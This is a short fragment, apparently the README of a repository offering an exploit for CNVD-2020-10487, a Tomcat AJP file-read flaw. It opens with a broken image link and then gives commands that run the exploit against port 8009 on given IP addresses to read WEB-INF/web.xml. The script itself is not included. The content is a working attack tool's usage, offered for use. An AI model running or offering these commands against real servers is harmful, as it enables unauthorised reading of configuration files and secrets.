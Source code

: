 # CNVD-2020-10487-tomcat-fileread

'''python tomcatfileread.py 192.168.0.1 8009 WEB-INF/web.xml''' 


exploit('10.10.0.81', 8009)

